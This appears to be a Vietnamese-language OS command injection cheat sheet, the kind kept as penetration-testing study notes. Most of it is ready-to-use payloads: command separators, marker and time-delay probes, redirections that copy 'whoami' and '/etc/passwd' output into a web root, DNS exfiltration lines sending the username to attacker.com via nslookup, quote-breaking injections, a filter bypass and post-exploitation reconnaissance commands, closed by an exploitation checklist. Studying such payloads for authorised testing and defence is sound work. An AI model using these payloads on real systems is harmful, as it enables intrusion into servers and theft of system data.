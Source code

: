 # 🛠 OS Command Injection Cheat Sheet

## 1. Các ký tự nối lệnh (Command separators)

### Dùng được cả trên Unix và Windows
- `&` → chạy nhiều lệnh liên tiếp, luôn thực thi lệnh sau.
- `&&` → chỉ chạy lệnh sau nếu lệnh trước thành công.
- `|` → chuyển output của lệnh trước thành input của lệnh sau.
- `||` → chỉ chạy lệnh sau nếu lệnh trước thất bại.

### Chỉ Unix (Linux/macOS)
- `;` → nối nhiều lệnh liên tiếp, bất kể thành công/thất bại.
- `\n` (newline) → xuống dòng, coi như lệnh mới.
- `` `cmd` `` → thực thi lệnh trong dấu backtick và thay thế kết quả.
- `$(cmd)` → tương tự backtick nhưng dễ lồng lệnh hơn.

### Chỉ Windows
- `^` → escape ký tự đặc biệt trong CMD.
- `%COMSPEC% /c cmd` → gọi shell mới để thực thi lệnh.

---

## 2. Payload cơ bản để test injection

### Kiểm tra command injection (echo marker)
```bash
& echo INJECTED &
&& echo INJECTED
| echo INJECTED
; echo INJECTED
```

### Payload gây delay (time-based)
```bash
# Unix
& sleep 10 &
; sleep 5

# Windows
& ping -n 10 127.0.0.1 &
```
### Payload tạo file (output redirection)
```bash
& whoami > /var/www/static/whoami.txt &
; cat /etc/passwd > /var/www/static/passwd.txt
```
### Payload gửi dữ liệu ra ngoài (OAST / exfiltration)
```bash
# Unix DNS exfiltration
; nslookup `whoami`.attacker.com
; nslookup $(id).attacker.com

# Windows
& nslookup %USERNAME%.attacker.com
```
## 3. Lệnh hữu ích sau khi exploit
```
| Mục đích          | Linux               | Windows            |
| ----------------- | ------------------- | ------------------ |
| User hiện tại     | `whoami`            | `whoami`           |
| Thông tin OS      | `uname -a`          | `ver`              |
| Cấu hình mạng     | `ifconfig` / `ip a` | `ipconfig /all`    |
| Kết nối mạng      | `netstat -an`       | `netstat -an`      |
| Process đang chạy | `ps -ef`            | `tasklist`         |
| Liệt kê file      | `ls -la`            | `dir`              |
| Đọc file nhạy cảm | `cat /etc/passwd`   | `type C:\boot.ini` |
```
## 4. Một số tình huống đặc biệt
```bash
' & whoami & '
" ; id ; "
```
### Khi filter một số ký tự đặc biệt
#### Thử encoding hoặc bypass bằng biến môi trường:
```bash
$(whoami)
`${IFS}id`      # IFS = space trong Unix
```

## Example
```bash
ping -c 1 127.0.0.1
ping -c 1 127.0.0.1; whoami
```
```bash
127.0.0.1 & echo INJECTED & 
check output if 'INJECTED'
```
```bash
time based
127.0.0.1 && sleep 10
```
```bash
redirect output file
127.0.0.1; whoami > /var/www/html/whoami.txt
```
```bash
out of band exfiltration
127.0.0.1; nslookup `whoami`.attacker.com
```
```bash
quote breaking
ping -c 1 'USER_INPUT'
USER_INPUT: 127.0.0.1' ; whoami ; #
```
### Window example 
Ping + `whoami`
```cmd 
ping 127.0.0.1 & whoami
```
Delay with `ping`
```cmd
127.0.0.1 && ping -n 5 127.0.0.1
```
Out-of-band with `nslookup`
```cmd
127.0.0.1 & nslookup %USERNAME%.attacker.com
```

## 6. Checklist khi thử khai thác
```
Thử nối lệnh với ;, &, &&, |.

Nếu có output → dùng echo hoặc whoami.

Nếu không có output → thử delay (sleep/ping).

Redirect ra file nếu có quyền ghi.

Nếu bị filter ký tự → thử backtick `cmd` hoặc $(cmd).

Dùng OAST (nslookup, curl, wget) để chắc chắn.
```